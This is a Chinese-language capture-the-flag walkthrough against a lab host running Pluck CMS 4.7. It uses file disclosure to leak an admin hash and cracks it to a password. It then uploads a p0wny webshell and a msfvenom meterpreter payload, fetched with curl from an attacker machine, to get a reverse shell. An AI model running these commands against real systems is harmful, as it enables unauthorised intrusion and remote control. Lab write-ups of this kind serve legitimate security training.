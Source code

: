 根据其原代码，可以定位到网站的配置文件目录 `/data/settings/`

注意到网站首页的 url 结构 `http://10.10.11.17/?file=mist` 之后，以及存在漏洞 [Pluck CMS 4.7 - Multiple Local File Inclusion / File Disclosure Vulnerabilities](https://www.exploit-db.com/exploits/36129) 怀疑可能存在任意文件读取，尝试利用

```php title="http://10.10.11.17/data/modules/albums/albums_getimage.php?image=admin_backup.php"
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146
```

直接使用 [crackstation.net](https://crackstation.net/) 进行破解

|                               Hash                               |  Type  |  Result   |
| :--------------------------------------------------------------: | :----: | :-------: |
| c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2 |        |           |
| bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e | sha512 | lexypoo97 |

得到用户密码

```plaintext
lexypoo97
```

### 网站后台

在 `options` 选项卡，可以直接安装模块，也就是可以直接上传 webshell

![img](img/image_20240415-231519.png)

使用 [p0wny-shell - Github](https://github.com/flozz/p0wny-shell) 大马进行打包为 zip 文件上传即可

需要注意的是，上传的文件会定时进行删除，所以需要尽快进行 shell 反弹

生成载荷，并开启 http 投递

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=9999 -f exe > 10.10.16.8.exe
python3 -m httpserver 8080
```

在大马的窗口中执行

```bash
curl http://10.10.16.8:8080/10.10.16.8.exe -o 10.10.16.8.exe
10.10.16.8.exe
```

本地启动监听

```bash
┌──(randark ㉿ kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > set lhost 10.10.16.8
lhost => 10.10.16.8
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:9999
```
